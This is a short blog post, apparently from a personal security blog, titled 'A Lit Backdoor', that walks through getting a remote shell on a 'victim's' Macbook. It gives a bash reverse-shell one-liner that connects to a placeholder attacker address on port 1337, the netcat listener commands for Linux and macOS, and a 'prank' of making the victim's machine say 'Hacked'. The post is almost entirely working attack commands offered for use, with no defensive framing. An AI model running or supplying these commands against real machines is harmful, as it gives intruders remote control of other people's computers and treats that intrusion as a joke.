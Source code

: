 Title: A Lit Backdoor
Date: 2014-06-21 2:00
Category: Exploitation
Tags: Reverse_shell netcat

I was never a big fan of Macbooks. Being a penguin user for so long, you learn to stop worrying and love love the bomb. But here is a little trick that works for both.

In the victim's machine (presumably a macbook), create the reverse shell in the port 1337:

```bash
$ sh -i >& /dev/tcp/ATTACKERS_IP/1337 0>&1
```

Now just netcat to it. From a Linux machine:

```bash
$ nc -l -p 1337
```

Or from a Macbook:
```bash
$ nc -l 1337
```

You should get shell. A cute prank is making the victim's computer talk:

```bash
$ say Hacked
```

:)


----

**Aloha, Mia**